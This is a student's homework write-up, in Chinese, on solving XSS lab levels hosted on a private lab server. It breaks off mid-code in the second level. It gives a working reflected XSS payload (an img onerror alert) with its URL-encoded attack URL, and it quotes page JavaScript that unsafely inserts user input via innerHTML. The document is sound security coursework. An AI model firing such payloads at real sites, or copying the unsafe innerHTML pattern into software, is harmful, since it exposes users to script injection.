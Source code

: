# XSS作业

2023202296 李甘

## 第一题

注意到 URL <http://10.10.17.36:32893/level1.php?name=%E9%95%9C%E5%AD%90> 中的“name=”部分，
我们猜测 name 的内容可能被嵌入了网页。使用 <http://10.10.17.36:32893/level1.php?name=test> 测试，
可以验证这一点。

如果 name 没有设置相应的安全防护，则可以通过该字段进行 XSS 注入。

尝试构造：

```html
<img src="test" onerror="alert()"/>
```

经过 URL 转义得到 <http://10.10.17.36:32893/level1.php?name=%3Cimg%20src%3D%22test%22%20onerror%3D%22alert%28%29%22%2F%3E>

成功通关。

## 第二题

注意到 URL <http://10.10.17.36:32893/level2.php?keyword=%E5%8F%8D%E5%B0%84> 中的“keyword=”部分，
我们猜测 keyword 的内容可能被嵌入了网页。使用 <http://10.10.17.36:32893/level2.php?keyword=test> 测试，
可以验证这一点。

尝试上一次的方法：<http://10.10.17.36:32893/level2.php?keyword=%3Cimg%20src%3D%22test%22%20onerror%3D%22alert%28%29%22%2F%3E>

发现没有成功。查看网页源代码，发现该字段被正确转义了，无法攻击：

```html
<center><del>至少能让这个奇怪的&lt;img src=&quot;test&quot; onerror=&quot;alert()&quot;/&gt;现象消失</del></center>
```

阅读网页代码，寻找到这样一段不安全的代码：

```html
<script>
    document.querySelector(".open-text").onclick = function () {
        var box = document.createElement("div");
        box.id='box';
        box.style = "width:250px; height:200px; border:1px solid #e5e5e5; background:#f1f1f1";
        var name = document.createElement("span");
        name.id = "name";
        name.innerText = "kasihappy: ";
        var input = document.createElement("input");
        input.id = "input-text";
        document.querySelector(".box-container").appendChild(box);
        document.querySelector(".input-container").appendChild(name);
        document.querySelector(".input-container").appendChild(input);
        var btn = document.createElement("input");
        btn.id = "btn";
        btn.type = "button";
        btn.value = "发送信息";
        btn.onclick = function () {
            var oBox = document.getElementById("box");
            var oName = document.getElementById("name");
            var oText = document.getElementById("input-text");
            oBox.innerHTML = oBox.innerHTML + oName.innerHTML + oText.value + "<br/>" + "<span style='color: red'>主导者：你逃不掉的...</span><br/>";
        }
        document.querySelector(".input-container").appendChild(btn);
```